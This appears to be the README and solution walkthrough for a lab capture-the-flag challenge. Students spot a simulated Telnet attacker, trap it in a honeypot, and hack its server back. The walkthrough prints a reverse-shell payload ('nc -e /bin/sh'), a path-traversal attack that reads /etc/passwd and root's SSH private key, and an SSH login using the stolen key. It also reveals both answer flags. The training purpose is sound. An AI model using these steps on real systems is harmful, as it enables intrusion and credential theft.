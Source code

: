 # Anyone Home?

An attacker-controlled container keeps probing hackerlab (telnet ports) and once it gets a shell, and it verifies its authenticity (by running 3 standard commands), it tries to deploy a malicious payload. 

Students must spot the activity, trick the attacker with a honeypot, analyse the dropped payload (1st flag), and finally attack back and pwn the attacker's (2nd flag) server.

### Tasks

1. **Is Anyone Home?** – Capture the malicious payload and extract the embedded flag.
2. **Bonus: Uno Reverse Card** – Exploit the attacker’s sloppy OPSEC, gain access to their box, and recover the bonus flag.

## How to solve
<details>
  <summary>Click to reveal how to solve steps</summary>

1. Start by monitoring inbound traffic on the student machine to confirm something is repeatedly reaching out over Telnet:
   ```bash
   root@hackerlab:~# tcpdump -n -vv -A port 23
   ```
   You should quickly notice connections and commands coming from `172.20.0.46`.

2. Instead of letting the attacker run commands on the real system, implement a honeypot and analyze attacker's actions. See a reference implementation in [auto-solve/telnet-honeypot.py](./auto-solve/telnet-honeypot.py)
   
3. Once you discover that attacker wants to download a payload from `http://172.20.0.46:8080//0ZbPWi0apUuFbpiwN2fp/payload.sh`, fetch the payload directly and inspect it:
   ```bash
   root@hackerlab:~# wget -O payload.sh http://172.20.0.46:8080//0ZbPWi0apUuFbpiwN2fp/payload.sh
   root@hackerlab:~# cat payload.sh
   #!/bin/sh
   # BSY{9YHgu60tUn5RjoYRTyViAMQWrci3y7w9x49w4qXXA3IHvWCb}
   nc -e /bin/sh 172.20.0.46 1234
   ```
   The comment line contains the first flag. Submit it through the dashboard.

4. To complete the bonus task, browse the attacker's staging directory to learn what else they exposed:
   ```bash
   root@hackerlab:~# curl http://172.20.0.46:8080/0ZbPWi0apUuFbpiwN2fp
   Files: 
   /var/www/payloads/payload.sh
   ```
   You see file paths, so maybe you can read files in the attacker's server. Voilá:
   ```bash
   root@hackerlab:~# curl http://172.20.0.46:8080/0ZbPWi0apUuFbpiwN2fp/../../../../../../etc/passwd --path-as-is
   root:x:0:0:root:/root:/bin/bash
   daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
   bin:x:2:2:bin:/bin:/usr/sbin/nologin
   ...
   ```
   If you port scan the attacker's server, you can see these ports.
   ```bash
   root@hackerlab:~# nmap 172.20.0.46
   Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-20 17:20 UTC
   Nmap scan report for scl-challenge-anyone-home.playground-net (172.20.0.46)
   Host is up (0.0000070s latency).
   Not shown: 998 closed tcp ports (reset)
   PORT     STATE SERVICE
   22/tcp   open  ssh
   8080/tcp open  http-proxy
   MAC Address: 02:42:AC:14:00:2E (Unknown)
   
   Nmap done: 1 IP address (1 host up) scanned in 0.26 seconds
   ```
   Since you see there is SSH server running and you can read files in the target server, after some trial and error you can try to guess standard name of the root's SSH key:
   ```bash
   root@hackerlab:~# curl http://172.20.0.46:8080/0ZbPWi0apUuFbpiwN2fp//../../../../../../root/.ssh/authorized_keys --path-as-is
   ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN8DlQZk8AdLGV374MwEl45kdgRG8xFaIjOKeR7IuVNKKNE9iMRaALVKb0Q4lndsHn1HAREG6MlS3c1VZ1XfczA= hello@friend
   root@hackerlab:~# curl http://172.20.0.46:8080/0ZbPWi0apUuFbpiwN2fp//../../../../../../root/.ssh/key --path-as-is > attacker.key
   root@hackerlab:~# chmod 600 attacker.key
   ```

5. Use the key to authenticate to the attacker’s host and read the flag from root’s home:
   ```bash
   root@hackerlab:~# ssh -i attacker.key -o StrictHostKeyChecking=no root@172.20.0.46
   root@ea9e0637121f:~# ls -lah
   total 28K
   drwx------ 1 root root 4.0K Oct 20 17:13 .
   drwxr-xr-x 1 root root 4.0K Oct 20 17:19 ..
   -rw-r--r-- 1 root root  607 Aug 24 16:20 .bashrc
   -rw-r--r-- 1 root root   54 Oct 20 17:13 .flag.txt
   -rw-r--r-- 1 root root  132 Aug 24 16:20 .profile
   -rw------- 1 root root    0 Oct  9 22:38 .python_history
   drwx------ 1 root root 4.0K Oct 20 17:13 .ssh
   -rw-r--r-- 1 root root  169 Oct  9 22:33 .wget-hsts
   root@ea9e0637121f:~# cat .flag.txt
   BSY{cQZ3TSoUVgbiO3EeyZiI5IidU6lcknWhjFRdeJppxV8yRs9M}
   ```
   Submit the second flag to complete the bonus task.

</details>

## Testing

The script [auto-solve.sh](./auto-solve.sh) automatically verifies that the challenge can be solved.
